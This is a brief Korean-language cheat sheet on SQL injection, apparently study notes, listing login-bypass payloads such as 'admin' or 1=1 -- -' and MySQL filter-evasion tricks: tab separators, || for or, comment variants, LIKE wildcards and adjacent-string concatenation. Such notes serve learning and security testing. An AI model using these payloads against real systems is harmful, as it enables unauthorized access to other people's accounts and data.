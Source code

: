 ### 1) cheetsheet
```sql
admin' or 1=1 -- -

admin ' --
```

### 2) 탭
SQL 구분자 공백 이외에 탭을 구분자로 사용해도 동일하게 동작합니다.

### 3) or
|| 로 변경 가능하다.

### 4) -- 
MySql에서 -- 로 주석 처리하는 경우 -- 뒤에 구분자가 와야합니다.

구분자 예시)
```
공백, 탭
--
#
/**/
```

### 5) like
like로 필터링 우회가능
```sql
SELECT *
FROM USER
WHERE ID LIKE 'ad___'
```
### 6) 문자열 사이 공백
mysql에서 문자열 사이에 공백이 있으면 문자열 합성이 발생합니다.

```sql
SELECT *
FROM USER
WHERE ID LIKE 'ad'	'min'
```

### 7) 세미콜론
원래 SQL이 실행되기 위해서는 세미콜론이 있어야하는데, PHP - mysqli_query 와 같은 함수에서 자동으로 넣어줍니다.